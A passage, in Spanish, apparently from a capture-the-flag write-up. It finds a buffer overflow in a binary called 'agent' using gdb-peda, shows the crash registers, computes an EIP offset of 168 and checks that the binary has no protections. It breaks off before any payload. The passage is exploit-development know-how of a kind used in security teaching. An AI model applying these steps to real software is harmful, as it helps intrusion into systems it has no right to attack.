 		Vemos que es vulnerable a un desbordamiento de buffer (Buffer Overflow).

Regresamos a nuestra máquina y abrimos la herramienta ‘gdb-peda’ con el binario:

```
gdb ./agent -q
```

Y creamos un patrón de 200 caracteres:

```
pattern create 200
```

Hacemos que el binario crashee:

```
EAX: 0xffffcfa4 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASA\244\317\377\377TAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
EBX: 0xf7e1cff4 --> 0x21cd8c 
ECX: 0xf7e1e9b8 --> 0x0 
EDX: 0x1 
ESI: 0x8048970 (<__libc_csu_init>:	push   ebp)
EDI: 0xf7ffcb80 --> 0x0 
EBP: 0x41417241 ('ArAA')
ESP: 0xffffd050 ("AAWAAuAAXAAvAAYAAwAAZAAxAAyA")
EIP: 0x74414156 ('VAAt')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x74414156
[------------------------------------stack-------------------------------------]
0000| 0xffffd050 ("AAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0004| 0xffffd054 ("AuAAXAAvAAYAAwAAZAAxAAyA")
0008| 0xffffd058 ("XAAvAAYAAwAAZAAxAAyA")
0012| 0xffffd05c ("AAYAAwAAZAAxAAyA")
0016| 0xffffd060 ("AwAAZAAxAAyA")
0020| 0xffffd064 ("ZAAxAAyA")
0024| 0xffffd068 ("AAyA")
0028| 0xffffd06c --> 0xa000000 ('')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x74414156 in ?? ()
```

Obtenemos el valor de ‘EIP’ y, con el siguiente comando:

```
pattern offset 0x74414156
1950433622 found at offset: 168
```

El offset se encuentra en ‘168’.

Ahora vamos a revisar las medidas de seguridad del binario:

```
checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```
